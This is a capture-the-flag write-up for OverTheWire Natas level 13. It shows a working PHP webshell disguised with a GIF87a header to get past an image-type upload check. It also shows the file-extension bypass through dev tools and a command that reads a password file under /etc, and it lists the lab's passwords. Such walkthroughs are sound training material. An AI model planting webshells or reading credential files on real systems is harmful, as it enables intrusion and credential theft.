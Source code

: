 # [Level 12 to 13](https://overthewire.org/wargames/natas/natas13.html) - Exploit file upload

- Login
```
URL: http://natas13.natas.labs.overthewire.org
Username: natas13
Password: trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```
- Exercise:
![image](https://github.com/user-attachments/assets/fb568b6c-a4dd-4674-80a0-4224ddceb4a0)
![image](https://github.com/user-attachments/assets/4ab9e2cb-459a-4fb5-8db5-7d4ba7773d02)

- Background:
  - Uses `exif_imagetype()` to check if the uploaded file is an image or not
  - This PHP function reads the first few bytes of a file to determine the file type
    - Won’t be fooled by just changing the file extension
    - If the file does not begin with the header bytes that indicate it actually is an image file, it will be rejected
    - GIF start with this headers: `GIF87a`
- Solution:
  - Save as file.php: Prepend "GIF87a" to the start of the webshell
  ```php
  GIF87a<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
  ```
  - Upload the file:
    - Website tries to change the file extension
    - To keep `.php`, open the Dev Tools and change the hidden file name
  ![image](https://github.com/user-attachments/assets/fc6dcc16-8861-4e41-8c8d-5ee8f5846fa3)
  - Click Upload file:
  ![image](https://github.com/user-attachments/assets/d5e520aa-77ef-4337-89f7-98b81bac8afc)
  ![image](https://github.com/user-attachments/assets/a811ae7c-046b-4e0c-b144-30c8fa48b21f)
  - Getting an error because it's expecting a query value and isn't getting one, provide `?e=ls` to see other webshells
  - Supply an input of `?e=cat%20/etc/natas_webpass/natas14` to the webshell to get the flag: `http://natas13.natas.labs.overthewire.org/upload/oazgfldi85.php?e=cat%20/etc/natas_webpass/natas14`
  ![image](https://github.com/user-attachments/assets/4ce00eaa-62c0-4a50-957c-548ad0f41829)
- Password: `z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ`

